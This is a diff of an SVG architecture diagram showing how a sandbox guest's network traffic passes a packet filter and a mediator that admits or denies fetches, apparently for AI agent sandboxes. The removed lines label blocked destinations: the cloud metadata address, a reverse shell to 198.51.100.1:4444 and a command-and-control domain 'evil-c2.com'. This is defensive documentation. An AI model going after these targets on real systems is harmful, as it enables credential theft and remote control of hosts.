-         <text x="0" y="12" font-family="monospace" font-size="7.2" font-weight="700" fill="#991b1b">169.254.169.254 (IMDS)</text>
-         <text x="0" y="22" font-size="6.8" fill="#7f1d1d">Kernel filter drop → TC_ACT_SHOT</text>
-         <text x="0" y="38" font-family="monospace" font-size="7.2" font-weight="700" fill="#991b1b">198.51.100.1:4444 (Raw TCP)</text>
-         <text x="0" y="48" font-size="6.8" fill="#7f1d1d">Reverse shell aborted at L4</text>
-         <text x="0" y="64" font-family="monospace" font-size="7.2" font-weight="700" fill="#991b1b">evil-c2.com (SNI Unlisted)</text>
-         <text x="0" y="74" font-size="6.8" fill="#7f1d1d">HTTP 403 Forbidden → TCP RST</text>
-         <rect y="86" width="166" height="60" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="83" y="100" font-size="7.5" font-weight="700" fill="#991b1b" text-anchor="middle">CONTAINMENT TRIGGERED</text>
-         <text x="83" y="112" font-size="6.8" fill="#7f1d1d" text-anchor="middle">Alert Written to Trajectory Log</text>
-         <text x="83" y="124" font-size="6.8" fill="#7f1d1d" text-anchor="middle">Sandbox Lease Revoked</text>
-         <text x="83" y="136" font-size="6.8" fill="#7f1d1d" text-anchor="middle">Zero Exfiltration onto Fabric</text>
-       </g>
-     </g>
-   </g>
+   <rect width="780" height="300" fill="#ffffff" />
+   <rect x="20" y="20" width="170" height="262" rx="4" fill="#f8fafc" stroke="#94a3b8" stroke-width="1" />
+   <rect x="20" y="20" width="170" height="36" rx="3" fill="#e2e8f0" stroke="#94a3b8" stroke-width="1" />
+   <text x="105" y="36" text-anchor="middle" font-size="9.5" font-weight="700" fill="#0f172a">Guest</text>
+   <text x="105" y="49" text-anchor="middle" font-size="8" fill="#475569" font-style="italic">no default route</text>
+   <rect x="220" y="20" width="130" height="262" rx="4" fill="#f8fafc" stroke="#94a3b8" stroke-width="1" />
+   <rect x="220" y="20" width="130" height="36" rx="3" fill="#e2e8f0" stroke="#94a3b8" stroke-width="1" />
+   <text x="285" y="36" text-anchor="middle" font-size="9.5" font-weight="700" fill="#0f172a">Packet filter</text>
+   <text x="285" y="49" text-anchor="middle" font-size="8" fill="#475569" font-style="italic">sees addresses and ports</text>
+   <rect x="380" y="20" width="150" height="262" rx="4" fill="#f8fafc" stroke="#94a3b8" stroke-width="1" />
+   <rect x="380" y="20" width="150" height="36" rx="3" fill="#e2e8f0" stroke="#94a3b8" stroke-width="1" />
+   <text x="455" y="36" text-anchor="middle" font-size="9.5" font-weight="700" fill="#0f172a">Mediator</text>
+   <text x="455" y="49" text-anchor="middle" font-size="8" fill="#475569" font-style="italic">binds name, operation, fields</text>
+   <rect x="560" y="20" width="200" height="262" rx="4" fill="#f8fafc" stroke="#94a3b8" stroke-width="1" />
+   <rect x="560" y="20" width="200" height="36" rx="3" fill="#e2e8f0" stroke="#94a3b8" stroke-width="1" />
+   <text x="660" y="36" text-anchor="middle" font-size="9.5" font-weight="700" fill="#0f172a">Outside the guest</text>
+   <text x="660" y="49" text-anchor="middle" font-size="8" fill="#475569" font-style="italic"> </text>
+   <rect x="30" y="70" width="150" height="40" rx="3" fill="#fef3c7" stroke="#d97706" stroke-width="1.2" />
+   <text x="38" y="86" font-size="8.5" font-weight="700" fill="#b45309">Fetch approved repo</text>
+   <text x="38" y="100" font-size="8" fill="#475569">via the adapter</text>
+   <rect x="230" y="81" width="110" height="18" rx="3" fill="#e2e8f0" />
+   <text x="285" y="93.5" text-anchor="middle" font-size="8" font-weight="700" fill="#334155">to adapter</text>
+   <path d="M 180 90 H 228" fill="none" stroke="#64748b" stroke-width="1.5" marker-end="url(#arr-gray)" />
+   <path d="M 340 90 H 388" fill="none" stroke="#64748b" stroke-width="1.5" marker-end="url(#arr-gray)" />
+   <rect x="390" y="81" width="130" height="18" rx="3" fill="#e2e8f0" />
+   <text x="455" y="93.5" text-anchor="middle" font-size="8" font-weight="700" fill="#334155">fetch admitted</text>
+   <path d="M 520 90 H 568" fill="none" stroke="#64748b" stroke-width="1.5" marker-end="url(#arr-gray)" />
+   <rect x="570" y="70" width="180" height="40" rx="3" fill="#ffffff" stroke="#334155" stroke-width="1" />
+   <text x="660" y="86" text-anchor="middle" font-size="8.5" font-weight="700" fill="#0f172a">Approved repository</text>
+   <text x="660" y="100" text-anchor="middle" font-size="8" fill="#475569">credential added by mediator</text>
+   <rect x="30" y="124" width="150" height="40" rx="3" fill="#fef3c7" stroke="#d97706" stroke-width="1.2" />
+   <text x="38" y="140" font-size="8.5" font-weight="700" fill="#b45309">Push, or another repo</text>
+   <text x="38" y="154" font-size="8" fill="#475569">via the adapter</text>
+   <rect x="230" y="135" width="110" height="18" rx="3" fill="#e2e8f0" />
+   <text x="285" y="147.5" text-anchor="middle" font-size="8" font-weight="700" fill="#334155">to adapter</text>
+   <path d="M 180 144 H 228" fill="none" stroke="#64748b" stroke-width="1.5" marker-end="url(#arr-gray)" />
+   <path d="M 340 144 H 388" fill="none" stroke="#64748b" stroke-width="1.5" marker-end="url(#arr-gray)" />
+   <rect x="390" y="135" width="130" height="18" rx="3" fill="#dc2626" />
+   <text x="455" y="147.5" text-anchor="middle" font-size="8" font-weight="700" fill="#ffffff">operation denied</text>
+   <rect x="30" y="178" width="150" height="40" rx="3" fill="#fef3c7" stroke="#d97706" stroke-width="1.2" />
+   <text x="38" y="194" font-size="8.5" font-weight="700" fill="#b45309">Direct socket</text>
+   <text x="38" y="208" font-size="8" fill="#475569">to a literal address</text>
+   <rect x="230" y="189" width="110" height="18" rx="3" fill="#dc2626" />
+   <text x="285" y="201.5" text-anchor="middle" font-size="8" font-weight="700" fill="#ffffff">dropped</text>
+   <path d="M 180 198 H 228" fill="none" stroke="#64748b" stroke-width="1.5" marker-end="url(#arr-gray)" />
+   <rect x="570" y="178" width="180" height="40" rx="3" fill="#ffffff" stroke="#94a3b8" stroke-width="1" stroke-dasharray="4,2" />
+   <text x="660" y="194" text-anchor="middle" font-size="8.5" font-weight="700" fill="#64748b">Metadata or other host</text>
+   <text x="660" y="208" text-anchor="middle" font-size="8" fill="#475569" font-style="italic">not reached</text>
+   <rect x="30" y="232" width="150" height="40" rx="3" fill="#fef3c7" stroke="#d97706" stroke-width="1.2" />
+   <text x="38" y="248" font-size="8.5" font-weight="700" fill="#b45309">Arbitrary name lookup</text>
+   <text x="38" y="262" font-size="8" fill="#475569">from the guest</text>
+   <rect x="230" y="243" width="110" height="18" rx="3" fill="#dc2626" />
+   <text x="285" y="255.5" text-anchor="middle" font-size="8" font-weight="700" fill="#ffffff">no resolver route</text>
+   <path d="M 180 252 H 228" fill="none" stroke="#64748b" stroke-width="1.5" marker-end="url(#arr-gray)" />
+   <rect x="570" y="232" width="180" height="40" rx="3" fill="#ffffff" stroke="#94a3b8" stroke-width="1" stroke-dasharray="4,2" />
+   <text x="660" y="248" text-anchor="middle" font-size="8.5" font-weight="700" fill="#64748b">External DNS server</text>
+   <text x="660" y="262" text-anchor="middle" font-size="8" fill="#475569" font-style="italic">not reached</text>
</svg>
